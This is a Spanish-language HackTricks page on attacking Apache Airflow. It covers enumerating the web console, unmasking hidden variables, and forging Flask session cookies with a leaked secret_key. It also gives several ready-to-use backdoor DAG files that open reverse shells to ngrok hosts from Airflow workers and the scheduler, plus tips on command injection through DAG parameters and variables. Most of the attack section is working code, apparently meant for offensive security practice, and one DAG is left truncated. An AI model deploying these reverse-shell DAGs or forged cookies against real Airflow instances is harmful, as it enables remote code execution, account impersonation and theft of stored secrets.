 # Seguridad de Apache Airflow

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de las tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son utilizados extensamente por una multitud de aplicaciones, incluyendo, pero no limitado a, herramientas de inteligencia empresarial, modelos de ciencia de datos y aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

### Laboratorio Local

#### Docker-Compose

Puedes usar el **archivo de configuración de docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno docker completo de apache airflow. (Si estás en MacOS asegúrate de darle al menos 6GB de RAM a la VM de docker).

#### Minikube

Una forma fácil de **ejecutar apache airflow** es ejecutarlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o puedes encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC de Airflow

Antes de comenzar a atacar Airflow, deberías entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías ser capaz de acceder a parte o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podrían estar almacenadas aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

#### Recuperar Valores de Variables

Las variables pueden ser almacenadas en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Airflow por defecto mostrará el valor de la variable en la GUI, sin embargo, de acuerdo a [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG** **arbitrarios**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **bruteforce** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

#### Escalación de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol Usuario** y **hacia arriba** pueden **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con esto válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, puedes simplemente **crear uno** que te enviará un **reverse shell.**\
Ten en cuenta que este reverse shell se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE en el programador de Airflow)

Si configuras algo para que sea **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** después de un par de segundos de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creación de DAG

Si logras **comprometer una máquina dentro del clúster DAG**, puedes crear nuevos **scripts de DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster DAG.

#### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI, puedes **pasar argumentos** a él.\
Por lo tanto, si el DAG no está correctamente codificado, podría ser **vulnerable a Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **comenzar a buscar inyecciones de comandos en DAGs** es que los **parámetros** son **accedidos** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables son **accedidas con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
